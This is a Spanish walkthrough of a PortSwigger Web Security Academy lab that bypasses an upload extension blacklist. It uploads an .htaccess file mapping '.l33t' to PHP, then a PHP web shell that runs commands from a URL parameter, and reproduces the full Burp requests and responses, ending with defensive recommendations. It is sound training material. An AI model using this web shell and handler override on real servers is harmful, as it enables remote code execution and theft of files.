



# PortSwigger Web Security Academy — File Upload Lab 4

# Web shell upload via extension blacklist bypass

**Categoría:** File upload vulnerabilities  
**Laboratorio:** Web shell upload via extension blacklist bypass  
**URL del lab:** `https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass`  
**Objetivo:** subir una web shell PHP evitando una blacklist de extensiones, leer `/home/carlos/secret` y enviar el secreto en el formulario del laboratorio.  
**Credenciales:** `wiener:peter`

---

## 0. Qué vamos a explotar exactamente

Este laboratorio trata de una vulnerabilidad de subida de archivos. La aplicación permite al usuario autenticado subir un avatar desde la página **My account**. La defensa implementada por el servidor consiste en bloquear ciertas extensiones, en concreto archivos con extensión `.php`.

El error es que el servidor usa una **blacklist de extensiones** como defensa principal. Una blacklist intenta decir: “bloqueo los nombres que considero peligrosos”. El problema es que esto suele ser débil porque hay muchas formas de conseguir ejecución de código sin usar exactamente la extensión bloqueada.

En este lab, la aplicación bloquea `.php`, pero permite subir un archivo especial de Apache llamado `.htaccess`. Ese archivo puede modificar cómo Apache interpreta ciertos tipos de archivo dentro del directorio donde se encuentra. La técnica consiste en subir primero un `.htaccess` que le diga a Apache que trate una extensión inventada, por ejemplo `.l33t`, como PHP. Después subimos una web shell con extensión `.l33t`. La aplicación no la bloquea porque no termina en `.php`, pero Apache la ejecuta como si fuera PHP.

La cadena completa es:

```text
1. Intentamos subir shell.php
2. El servidor lo bloquea porque .php está en blacklist
3. Subimos .htaccess
4. .htaccess configura Apache para ejecutar .l33t como PHP
5. Subimos shell.l33t con código PHP dentro
6. Visitamos /files/avatars/shell.l33t?cmd=cat+/home/carlos/secret
7. Apache ejecuta el código PHP
8. Obtenemos el secreto de Carlos
9. Lo enviamos en Submit solution
```

---

## 1. Conceptos necesarios antes de la práctica

## 1.1. Qué es una vulnerabilidad de file upload

Una vulnerabilidad de subida de archivos aparece cuando una aplicación permite al usuario subir archivos y no controla correctamente qué se sube, dónde se guarda, cómo se sirve después y si el servidor puede ejecutarlo.

Subir un archivo malicioso por sí solo no siempre implica ejecución remota de código. Para que haya impacto crítico, normalmente se necesita que el archivo subido acabe en una ruta accesible y que el servidor lo interprete como código.

Ejemplo básico:

```php
<?php echo "hola"; ?>
```

Si ese archivo se guarda como `test.php` en una ruta donde PHP está habilitado, al visitarlo el servidor no devuelve el texto literal. El servidor ejecuta el código y devuelve la salida.

Si se guarda en una carpeta donde PHP está deshabilitado, el servidor podría devolver el contenido como texto o descargarlo como archivo estático. En ese caso no habría RCE, aunque el upload siga siendo peligroso.

## 1.2. Qué es una web shell

Una web shell es un archivo que contiene código ejecutable por el servidor y que el atacante puede invocar mediante HTTP.

Una web shell mínima para leer un archivo concreto sería:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Una web shell más flexible es:

```php
<?php system($_GET['cmd']); ?>
```

Con esta segunda versión, el comando se pasa por la URL:

```http
GET /files/avatars/shell.l33t?cmd=id
GET /files/avatars/shell.l33t?cmd=whoami
GET /files/avatars/shell.l33t?cmd=cat+/home/carlos/secret
```

La parte importante es `$_GET['cmd']`. En PHP, `$_GET` contiene los parámetros de la query string. Si la URL es:

```text
/files/avatars/shell.l33t?cmd=whoami
```

entonces:

```php
$_GET['cmd'] = "whoami"
```

Y esta línea:

```php
system($_GET['cmd']);
```

ejecuta en el sistema operativo el comando recibido.

## 1.3. Por qué una web shell implica RCE

RCE significa **Remote Code Execution**, ejecución remota de código. En este lab, la ejecución remota ocurre porque nosotros, desde fuera, conseguimos que el servidor ejecute código PHP que hemos subido.

El flujo es:

```text
Atacante
  ↓ sube archivo malicioso
Servidor guarda archivo
  ↓
Atacante visita el archivo
  ↓
Apache/PHP ejecuta el código
  ↓
Servidor devuelve la salida
```

Cuando usamos:

```php
<?php system($_GET['cmd']); ?>
```

ya no solo estamos leyendo un archivo fijo. Estamos creando una interfaz HTTP para ejecutar comandos. Por eso es una vulnerabilidad crítica.

## 1.4. Qué es una blacklist de extensiones

Una blacklist de extensiones es una lista de extensiones prohibidas. Por ejemplo:

```text
.php
.php5
.phtml
```

La aplicación puede hacer algo parecido a:

```python
if filename.endswith('.php'):
    reject()
```

El problema es que bloquear solo algunas extensiones suele ser insuficiente. Hay varias razones:

1. El servidor puede ejecutar otras extensiones como PHP.
2. Existen extensiones alternativas como `.php5`, `.phtml`, `.phar`, etc.
3. Algunos servidores permiten redefinir handlers mediante configuración local.
4. El nombre del archivo no es una garantía del tipo real del archivo.
5. Las reglas del servidor web pueden ser más complejas que el filtro de la aplicación.

En este laboratorio, la app bloquea `.php`, pero permite `.htaccess`. Esa es la puerta de entrada.

## 1.5. Qué es `.htaccess`

`.htaccess` es un archivo especial usado por Apache. Sirve para aplicar configuración por directorio. Si Apache permite que los `.htaccess` tengan efecto, un archivo `.htaccess` dentro de una carpeta puede modificar reglas de esa carpeta y sus subcarpetas.

Puede usarse para muchas cosas:

```text
- redirecciones
- reglas de rewrite
- control de acceso
- configuración de MIME types
- definición de handlers
- comportamiento de extensiones
```

En este lab nos interesa usarlo para decirle a Apache que una extensión inventada debe interpretarse como PHP.

## 1.6. Qué hace `AddType application/x-httpd-php .l33t`

El contenido que subimos en `.htaccess` es:

```apache
AddType application/x-httpd-php .l33t
```

Esto le dice a Apache:

```text
Los archivos que terminen en .l33t deben tratarse como PHP.
```

Entonces, si subimos un archivo llamado:

```text
shell.l33t
```

con contenido PHP:

```php
<?php system($_GET['cmd']); ?>
```

Apache lo interpreta como código PHP, no como texto plano.

La aplicación no lo bloquea porque no ve `.php`. Pero Apache sí lo ejecuta porque `.htaccess` ha redefinido el comportamiento de `.l33t`.

## 1.7. Por qué este bypass funciona

Funciona porque hay dos capas distintas tomando decisiones distintas:

```text
Capa 1: aplicación de subida
  - Mira el filename
  - Bloquea .php
  - Permite .htaccess
  - Permite .l33t

Capa 2: Apache
  - Lee .htaccess
  - Aprende que .l33t = PHP
  - Ejecuta shell.l33t como PHP
```

La aplicación cree que está segura porque no acepta `.php`, pero el servidor web termina ejecutando una extensión alternativa.

La frase clave es:

```text
La blacklist bloqueaba .php, pero .htaccess permitió convertir otra extensión cualquiera en PHP ejecutable.
```

---

## 2. Inicio del laboratorio

Al iniciar el laboratorio se abre una página de Web Security Academy con el título:

```text
Web shell upload via extension blacklist bypass
```

La página tiene aspecto de blog, con el logo de Web Security Academy, el texto grande “WE LIKE TO BLOG” y una imagen de portada. En el banner superior aparece el estado del laboratorio como **Not solved**.



El lab nos da las credenciales:

```text
wiener:peter
```

Con estas credenciales entramos en **My account**. En la página de la cuenta aparece una funcionalidad para subir avatar. Esta funcionalidad es el punto de entrada de la vulnerabilidad.

---

## 3. Localización de la funcionalidad vulnerable

Entramos en:

```text
My account
```

Nos autenticamos como:

```text
Username: wiener
Password: peter
```

Dentro de la cuenta vemos un formulario con:

```text
Avatar:
[Browse...]
[Upload]
```

Este formulario envía archivos al servidor. Como estamos trabajando con un lab de file upload, este es el lugar que debemos analizar.

Abrimos Burp Suite, activamos el proxy con FoxyProxy y subimos un archivo de prueba o intentamos subir directamente una shell PHP para ver cómo responde el servidor.

---

## 4. Primer intento: subir `shell.php`

Creamos un archivo llamado:

```text
shell.php
```

con este contenido:

```php
<?php system($_GET['cmd']); ?>
```

Este payload es una web shell genérica. No lee directamente el secreto, sino que ejecuta el comando que le pasemos por el parámetro `cmd`.

Ejemplo:

```text
/files/avatars/shell.php?cmd=whoami
```

haría que el servidor ejecutase:

```bash
whoami
```

Ahora intentamos subirlo como avatar. Burp captura una petición similar a esta:

```http
POST /my-account/avatar HTTP/1.1
Host: 0a4d00150449bae781b2daf2009c00e4.web-security-academy.net
Cookie: session=Zpp5TlkjyvN0hM1g4PSutC4Dij4q3KnN
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a4d00150449bae781b2daf2009c00e4.web-security-academy.net/my-account
Content-Type: multipart/form-data; boundary=----geckoformboundaryb3086a1bea42da56416c9b060e9dd1fc
Content-Length: 503
Origin: https://0a4d00150449bae781b2daf2009c00e4.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

------geckoformboundaryb3086a1bea42da56416c9b060e9dd1fc
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: application/x-php

<?php system($_GET['cmd']); ?>

------geckoformboundaryb3086a1bea42da56416c9b060e9dd1fc
Content-Disposition: form-data; name="user"

wiener
------geckoformboundaryb3086a1bea42da56416c9b060e9dd1fc
Content-Disposition: form-data; name="csrf"

ef1pwr8IfNzbJSb0QOqJnl7A6QWTYJSZ
------geckoformboundaryb3086a1bea42da56416c9b060e9dd1fc--
```

## 4.1. Qué significa cada parte importante de la petición

La línea:

```http
POST /my-account/avatar HTTP/1.1
```

indica que estamos enviando el formulario de subida de avatar.

La cabecera:

```http
Content-Type: multipart/form-data; boundary=----geckoformboundary...
```

indica que estamos enviando un formulario multipart. Este tipo de formulario se usa para subir archivos. Cada campo del formulario se separa mediante un boundary.

La parte importante del archivo es:

```http
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: application/x-php

<?php system($_GET['cmd']); ?>
```

Aquí estamos indicando que el archivo subido se llama `shell.php` y que su contenido es PHP.

## 4.2. Respuesta del servidor

El servidor responde:

```http
HTTP/2 403 Forbidden
Date: Sun, 10 May 2026 17:45:46 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 164

Sorry, php files are not allowed
Sorry, there was an error uploading your file.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

Esta respuesta es clave. Nos dice:

```text
Sorry, php files are not allowed
```

Eso confirma que la aplicación está bloqueando archivos con extensión `.php`.

## 4.3. Qué hemos aprendido con este intento

Hemos aprendido varias cosas:

```text
1. La funcionalidad de upload existe.
2. El endpoint vulnerable es /my-account/avatar.
3. El servidor analiza el nombre del archivo.
4. La extensión .php está bloqueada.
5. El archivo no se ha guardado.
6. Necesitamos un bypass de la blacklist.
```

Esto no significa que la aplicación sea segura. Solo significa que hay una blacklist básica.

---

## 5. Por qué no sirve insistir con `shell.php`

Cuando un upload devuelve `403 Forbidden`, el archivo no se ha subido. Por tanto, si después intentamos acceder a:

```text
/files/avatars/shell.php
```

lo normal sería que no exista.

Hay que distinguir tres casos:

```text
Caso A: el archivo no existe
  → 404 Not Found

Caso B: el archivo existe pero no se ejecuta
  → se ve el código PHP como texto

Caso C: el archivo existe y se ejecuta
  → vemos la salida del comando, no el código fuente
```

En este laboratorio estamos en el caso anterior al upload: la aplicación ni siquiera deja subir `shell.php`.

Por eso el camino correcto no es insistir con `.php`, sino cambiar la forma en que Apache interpreta otra extensión permitida.

---

## 6. Bypass: subir `.htaccess`

El bypass consiste en subir un archivo `.htaccess` al directorio de avatars.

El contenido de ese archivo será:

```apache
AddType application/x-httpd-php .l33t
```

Esto configura Apache para tratar los archivos `.l33t` como PHP dentro de ese directorio.

## 6.1. Petición para subir `.htaccess`

Modificamos la petición de subida en Burp.

Cambios importantes:

```text
filename=".htaccess"
Content-Type: text/plain
Contenido: AddType application/x-httpd-php .l33t
```

La petición queda así:

```http
POST /my-account/avatar HTTP/2
Host: 0a4d00150449bae781b2daf2009c00e4.web-security-academy.net
Cookie: session=Zpp5TlkjyvN0hM1g4PSutC4Dij4q3KnN
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a4d00150449bae781b2daf2009c00e4.web-security-academy.net/my-account
Content-Type: multipart/form-data; boundary=----geckoformboundaryb3086a1bea42da56416c9b060e9dd1fc
Content-Length: 503
Origin: https://0a4d00150449bae781b2daf2009c00e4.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

------geckoformboundaryb3086a1bea42da56416c9b060e9dd1fc
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

AddType application/x-httpd-php .l33t

------geckoformboundaryb3086a1bea42da56416c9b060e9dd1fc
Content-Disposition: form-data; name="user"

wiener
------geckoformboundaryb3086a1bea42da56416c9b060e9dd1fc
Content-Disposition: form-data; name="csrf"

ef1pwr8IfNzbJSb0QOqJnl7A6QWTYJSZ
------geckoformboundaryb3086a1bea42da56416c9b060e9dd1fc--
```

## 6.2. Respuesta del servidor

El servidor responde:

```http
HTTP/2 200 OK
Date: Sun, 10 May 2026 18:04:11 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 130

The file avatars/.htaccess has been uploaded.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

Esta respuesta es importantísima:

```text
The file avatars/.htaccess has been uploaded.
```

Significa que:

```text
1. La blacklist no bloquea .htaccess.
2. El archivo se ha guardado en avatars.
3. Apache puede leer esa configuración si AllowOverride está habilitado.
4. Ahora los archivos .l33t deberían ejecutarse como PHP.
```

## 6.3. Qué hemos conseguido con `.htaccess`

Hemos preparado el entorno para ejecutar PHP sin usar `.php`.

Antes:

```text
shell.php → bloqueado por blacklist
```

Ahora:

```text
shell.l33t → permitido por la aplicación
shell.l33t → ejecutado por Apache como PHP
```

Esto es el corazón del bypass.

---

## 7. Subida de la web shell con extensión `.l33t`

Creamos un archivo llamado:

```text
shell.l33t
```

con el contenido:

```php
<?php system($_GET['cmd']); ?>
```

La extensión `.l33t` no tiene nada especial por sí misma. La estamos usando porque no está en la blacklist. Lo que la hace especial es la línea de `.htaccess` que acabamos de subir:

```apache
AddType application/x-httpd-php .l33t
```

## 7.1. Petición de subida de `shell.l33t`

La petición queda así:

```http
POST /my-account/avatar HTTP/2
Host: 0a4d00150449bae781b2daf2009c00e4.web-security-academy.net
Cookie: session=Zpp5TlkjyvN0hM1g4PSutC4Dij4q3KnN
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----geckoformboundary6be10125a444e525d227fdadc82666cf
Content-Length: 511
Origin: https://0a4d00150449bae781b2daf2009c00e4.web-security-academy.net
Referer: https://0a4d00150449bae781b2daf2009c00e4.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

------geckoformboundary6be10125a444e525d227fdadc82666cf
Content-Disposition: form-data; name="avatar"; filename="shell.l33t"
Content-Type: application/octet-stream

<?php system($_GET['cmd']); ?>

------geckoformboundary6be10125a444e525d227fdadc82666cf
Content-Disposition: form-data; name="user"

wiener
------geckoformboundary6be10125a444e525d227fdadc82666cf
Content-Disposition: form-data; name="csrf"

ef1pwr8IfNzbJSb0QOqJnl7A6QWTYJSZ
------geckoformboundary6be10125a444e525d227fdadc82666cf--
```

## 7.2. Respuesta del servidor

```http
HTTP/2 200 OK
Date: Sun, 10 May 2026 18:10:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 131

The file avatars/shell.l33t has been uploaded.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

Esto confirma que la blacklist no bloqueó `.l33t`.

La cadena ya está preparada:

```text
.htaccess subido correctamente
shell.l33t subido correctamente
```

Ahora solo falta comprobar si Apache ejecuta `shell.l33t` como PHP.

---

## 8. Comprobación de ejecución PHP

Capturamos o enviamos manualmente la petición:

```http
GET /files/avatars/shell.l33t HTTP/2
Host: 0a4d00150449bae781b2daf2009c00e4.web-security-academy.net
Cookie: session=Zpp5TlkjyvN0hM1g4PSutC4Dij4q3KnN
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: image/avif,image/webp,image/png,image/svg+xml,image/*;q=0.8,*/*;q=0.5
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a4d00150449bae781b2daf2009c00e4.web-security-academy.net/my-account
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Priority: u=5, i
Te: trailers
```

El servidor responde:

```http
HTTP/2 200 OK
Date: Sun, 10 May 2026 18:11:47 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

## 8.1. Por qué `Content-Length: 0` es buena señal aquí

Nuestro archivo contiene:

```php
<?php system($_GET['cmd']); ?>
```

En la petición anterior no hemos enviado ningún parámetro `cmd`. Por tanto, PHP intenta ejecutar:

```php
system($_GET['cmd']);
```

pero `cmd` no tiene valor. Eso produce salida vacía.

Si Apache no estuviera ejecutando el archivo, veríamos el código fuente literalmente:

```php
<?php system($_GET['cmd']); ?>
```

Como no aparece el código fuente y la salida es vacía, la conclusión correcta es:

```text
shell.l33t está siendo ejecutado como PHP.
```

La prueba definitiva será pasar un comando.

---

## 9. Lectura de `/home/carlos/secret`

Ahora modificamos la petición para pasar el parámetro `cmd`:

```http
GET /files/avatars/shell.l33t?cmd=cat+/home/carlos/secret HTTP/2
Host: 0a4d00150449bae781b2daf2009c00e4.web-security-academy.net
```

La URL completa sería:

```text
https://0a4d00150449bae781b2daf2009c00e4.web-security-academy.net/files/avatars/shell.l33t?cmd=cat+/home/carlos/secret
```

## 9.1. Por qué usamos `+` entre `cat` y la ruta

En una URL, los espacios no se escriben directamente. En query strings, un espacio suele representarse como `+`.

Por eso:

```text
cmd=cat+/home/carlos/secret
```

se interpreta como:

```bash
cat /home/carlos/secret
```

También podríamos usar `%20`:

```text
cmd=cat%20/home/carlos/secret
```

## 9.2. Qué ejecuta el servidor

Nuestra shell es:

```php
<?php system($_GET['cmd']); ?>
```

La query string es:

```text
cmd=cat+/home/carlos/secret
```

Entonces PHP hace:

```php
system("cat /home/carlos/secret");
```

El comando `cat` lee el archivo y devuelve su contenido en la respuesta HTTP.

## 9.3. Respuesta con el secreto

La respuesta recibida es:

```http
HTTP/2 200 OK
Date: Sun, 10 May 2026 18:13:08 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 32

lBnpFKTRTiyon4OIOAaGizjhA2nQBGrh
```

El secreto es:

```text
lBnpFKTRTiyon4OIOAaGizjhA2nQBGrh
```

---

## 10. Envío de la solución

Volvemos al laboratorio y pulsamos el botón:

```text
Submit solution
```

En el popup introducimos:

```text
lBnpFKTRTiyon4OIOAaGizjhA2nQBGrh
```



Tras enviarlo, el laboratorio queda resuelto.



---

## 11. Desglose técnico completo de la cadena de explotación

## 11.1. Primer bloqueo

Intento:

```text
filename="shell.php"
```

Resultado:

```text
403 Forbidden
Sorry, php files are not allowed
```

Conclusión:

```text
Existe una blacklist que bloquea .php.
```

## 11.2. Subida de `.htaccess`

Payload:

```apache
AddType application/x-httpd-php .l33t
```

Resultado:

```text
The file avatars/.htaccess has been uploaded.
```

Conclusión:

```text
.htaccess no está bloqueado y se guarda en el directorio de uploads.
```

## 11.3. Subida de `shell.l33t`

Payload:

```php
<?php system($_GET['cmd']); ?>
```

Filename:

```text
shell.l33t
```

Resultado:

```text
The file avatars/shell.l33t has been uploaded.
```

Conclusión:

```text
La extensión .l33t no está bloqueada.
```

## 11.4. Ejecución de `shell.l33t`

Petición:

```http
GET /files/avatars/shell.l33t HTTP/2
```

Respuesta:

```text
Content-Length: 0
```

Conclusión:

```text
El archivo no se devuelve como texto. Se ejecuta como PHP.
```

## 11.5. Lectura del secreto

Petición:

```http
GET /files/avatars/shell.l33t?cmd=cat+/home/carlos/secret HTTP/2
```

Respuesta:

```text
lBnpFKTRTiyon4OIOAaGizjhA2nQBGrh
```

Conclusión:

```text
RCE conseguido y secreto exfiltrado.
```

---

## 12. Por qué este lab es distinto de los anteriores

## 12.1. Lab 1: sin validación

En el primer lab de file upload, la aplicación no validaba nada. Subías `shell.php` y se ejecutaba directamente.

```text
shell.php → permitido → ejecutado
```

## 12.2. Lab 2: bypass por Content-Type

En el segundo lab, la aplicación intentaba validar el MIME type, pero confiaba en un valor controlado por el cliente:

```http
Content-Type: image/png
```

Aunque el contenido real fuera PHP, el servidor aceptaba el archivo.

```text
shell.php + Content-Type image/png → permitido → ejecutado
```

## 12.3. Lab 3: path traversal

En el tercer lab, PHP no se ejecutaba dentro de `/files/avatars/`, pero se podía escapar del directorio usando path traversal en el filename:

```text
filename="..%2fshell.php"
```

El archivo acababa en `/files/shell.php`, donde sí se ejecutaba.

```text
avatars/ no ejecuta PHP
/files/ sí ejecuta PHP
path traversal mueve la shell
```

## 12.4. Lab 4: blacklist de extensiones

En este lab, el servidor bloquea `.php`, pero permite `.htaccess`. Entonces redefinimos una extensión alternativa como PHP.

```text
.php bloqueado
.htaccess permitido
.l33t permitido
.htaccess convierte .l33t en PHP
```

La idea fundamental es diferente: no movemos el archivo a otra carpeta, sino que cambiamos cómo Apache interpreta la extensión del archivo dentro del directorio permitido.

---

## 13. Errores de seguridad de la aplicación

La aplicación comete varios errores graves:

## 13.1. Usa blacklist en vez de whitelist

Una blacklist bloquea lo que el desarrollador recuerda bloquear. Es fácil olvidarse de casos alternativos.

Lo correcto sería una whitelist estricta:

```text
Solo permitir .jpg, .jpeg, .png
```

Y aun así no basta solo con extensión.

## 13.2. Permite subir `.htaccess`

Esto es muy grave en Apache. Permitir que un usuario suba `.htaccess` a una ruta servida por Apache puede permitir modificar el comportamiento del servidor.

Un archivo `.htaccess` nunca debería poder ser subido por usuarios.

## 13.3. Permite que `.htaccess` tenga efecto

El servidor parece tener habilitado algo equivalente a:

```apache
AllowOverride All
```

o una configuración que permite a `.htaccess` definir tipos/handlers.

Eso permite que la configuración de un directorio sea modificada mediante archivos locales.

## 13.4. Guarda archivos en una ruta pública

Los archivos subidos quedan accesibles en:

```text
/files/avatars/
```

Esto permite al atacante invocar directamente el archivo subido.

## 13.5. La carpeta de uploads permite comportamiento ejecutable

Aunque inicialmente se bloquee `.php`, el directorio acepta configuración que termina habilitando ejecución de código.

La medida más fuerte sería que el directorio de uploads no pudiera ejecutar nada bajo ninguna circunstancia.

---

## 14. Cómo debería protegerse correctamente

Una defensa segura debería combinar varias medidas.

## 14.1. Whitelist de extensiones

Permitir solo extensiones esperadas:

```text
.jpg
.jpeg
.png
```

Bloquear todo lo demás por defecto.

## 14.2. Validar contenido real

No confiar solo en el nombre ni en el `Content-Type`.

Validar magic bytes:

```text
JPEG → FF D8 FF
PNG  → 89 50 4E 47
```

También se puede reprocesar la imagen con una librería segura y guardar una versión nueva generada por el servidor.

## 14.3. Renombrar archivos

No conservar el nombre del usuario.

En vez de guardar:

```text
shell.php
```

guardar algo como:

```text
avatar_8934f84d.png
```

## 14.4. Almacenar fuera del web root

Lo ideal es guardar los archivos fuera de la ruta pública del servidor web. Después, servirlos mediante un endpoint controlado que los devuelva como datos, no como código ejecutable.

## 14.5. Deshabilitar ejecución en uploads

En Apache, la carpeta de uploads debería impedir cualquier ejecución:

```apache
php_flag engine off
```

o configuración equivalente según el entorno.

## 14.6. No permitir `.htaccess`

Debe evitarse que los usuarios suban archivos especiales como:

```text
.htaccess
.user.ini
web.config
```

Además, en Apache se recomienda deshabilitar `AllowOverride` cuando no sea necesario.

## 14.7. Separar dominio de uploads

En aplicaciones reales, una buena práctica es servir archivos subidos desde un dominio separado sin cookies y sin capacidad de ejecutar código.

---

## 15. Resumen final del laboratorio

Este laboratorio demuestra que bloquear extensiones peligrosas con una blacklist no es una defensa robusta. La aplicación bloquea `.php`, pero permite subir `.htaccess`. Gracias a `.htaccess`, configuramos Apache para ejecutar una extensión alternativa `.l33t` como PHP.

La explotación completa fue:

```text
1. Login como wiener:peter
2. Ir a My account
3. Intentar subir shell.php
4. Ver que .php está bloqueado
5. Subir .htaccess con AddType application/x-httpd-php .l33t
6. Subir shell.l33t con <?php system($_GET['cmd']); ?>
7. Acceder a /files/avatars/shell.l33t?cmd=cat+/home/carlos/secret
8. Obtener el secreto
9. Enviarlo en Submit solution
10. Laboratorio resuelto
```

Secreto obtenido:

```text
lBnpFKTRTiyon4OIOAaGizjhA2nQBGrh
```

Frase clave:

```text
La blacklist bloqueaba .php, pero .htaccess permitió convertir .l33t en PHP ejecutable.
```
